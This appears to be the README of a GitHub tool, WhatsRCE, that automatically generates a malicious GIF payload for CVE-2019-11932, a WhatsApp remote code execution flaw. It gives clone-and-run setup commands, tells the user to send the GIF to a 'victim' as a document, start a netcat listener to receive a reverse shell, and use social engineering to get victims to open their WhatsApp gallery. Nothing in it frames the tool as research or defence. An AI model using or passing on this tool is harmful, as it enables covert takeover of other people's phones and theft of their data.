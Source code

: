 # whatsappcrash
this is a tool for whatsapp crash and  mmay more thing 
WhatsRCE
This is a Automated Generate Payload for CVE-2019-11932 (WhatsApp Remote Code Execution)

Auto install GCC (no harm command, you can see this is open-source)
Saving to .GIF file
How To Use ?
sudo apt install git
git clone https://github.com/KeepWannabe/WhatsRCE
cd WhatsRCE && bash start.sh
How Get Shell ?
You just send the .GIF file to victim user AS A DOCUMENT NOT IMAGES
And set the nc / netcat to port you set on the WhatsRCE tools {nc -lnvp your_port}
You can use the Social Engineering attack so that victims can be attracted to launch this exploit
tell the victim to open the gallery via whatsapp and send the victim to send any photos (no need, it's just got to the gallery no problem) after that a few seconds later you will receive a shell connection from the victim
############# Mine contribution is Zero, But i enjoyed their works #######################
